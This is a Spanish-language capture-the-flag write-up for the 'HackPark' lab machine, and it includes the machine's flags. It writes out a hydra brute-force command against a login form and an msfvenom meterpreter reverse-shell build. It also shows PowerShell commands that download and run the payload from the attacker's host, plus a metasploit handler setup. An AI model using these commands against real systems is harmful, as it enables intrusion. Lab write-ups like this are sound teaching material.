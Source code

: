 # HackPark - rmartinez 17/01/2022

IP: 10.10.146.142

## 1. Whats the name of the clown displayed on the homepage?

```
pennywise
```

El siguiente paso será bruteforcear con hydra el formulario que hay en /Account/login.aspx. Lo que haremos será abrir Burp para ver la payload que se envía en el formulario (http-payload.txt) y se la pasaremos a hydra para crackearla.

En hydra usando el módulo http-post-form la payload tiene la siguiente estructura:

```
"URL:FORM PAYLOAD:CONTENIDO RESPONSE QUE QUEREMOS EVITAR"
```


Bruterforceamos con hydra el login ejecutando el siguiente payload:

```
hydra -f -l admin -P /opt/wordlists/rockyou.txt 10.10.146.142 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=fL2tVePaQj2Bd3yhP1Qk9latiwIWDWnmeUFI8PtMVR5gr%2F1V4bvoOons45qp6htzIzTkaeWDOTjzcGQESaMDqQ6sGcW5ALgtcoSI2hSGNhIA1%2FiNamYc4Trh06FVDrcB8mJluyZ7zLrLwhYkTh8YXwp0kVl8sx%2Fz09DWvfTMiijwtsJO&__EVENTVALIDATION=0fEbnWaJiLKupaIpmuCSVPWoeRsXc2Cug9TGKwz7aK0xT%2FHQzApBSH1p7%2Faq4%2FYnVt408khIpV0Z0T%2BKSpepvkGqEh2laoN2m5ElUU9qXkUUvbOEKnsElaIbLgjglRMUJKb5d9w8QmbVpx1Gzas4QfrR%2FABP6AXUzBMN9TOOUdDCUjh2&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed"

```
Nos da el siguiente output positivo:
```
[80][http-post-form] host: 10.10.146.142   login: admin   password: 1qaz2wsx
```

Lo siguiente que haremos para obtener acceso a la máquina será comprobar qué estamos comprometiendo. En este caso, se trata de BlogEngine 3.3.6.0, que comprobaremos en la página de about.

Buscaremos un exploit y veremos que esta máquina es vulnerable a la **CVE-2019-6714**. Usaremos el exploit público en:
```
https://www.exploit-db.com/exploits/46353
```

Seteamos IP y puerto y abrimos un listener de netcat en el 4444. Nos da una revshell roñosa de cmd. 

Lo que haremos a continuación es subirnos una shell de meterpreter con powershell:

```
mkdir webserver
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.241 LPORT=5555 -f exe -o shell.exe
python -m http.server
powershell -c "Invoke-WebRequest -Uri 'http://10.9.3.241:8000/shellaca2.exe' -OutFile 'C:\Windows\Temp\shell2.exe'"
powershell -c "Start-Process 'C:\Windows\Temp\shell.exe'"
```

En metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.3.241
set LPORT 5555
run
```




Ya tenemos la shell de meterpreter. Con meterpreter o no, bajamos winpeas y lo ejecutamos. Listamos los servicios y vemos uno que nos llama la atención 
```
WindowsScheduler
```
Vamos a la carpeta donde está alojado y vemos un log sospechoso en Events/20198415519.INI_LOG.txt

Lo abrimos y vemos que cada minuto se está ejecutando un ejecutable llamado Message.exe con el usuario Administrator.

Nos vamos a esa ubicación y creamos una reverse shell nueva con msfvenom igual que antes.

Nos bajamos la revshell, la ejecutamos, y gg pwn3d.

User flag: 759bd8af507517bcfaede78a21a73e39
Root flag: 7e13d97f05f7ceb9881a3eb3d78d3e72

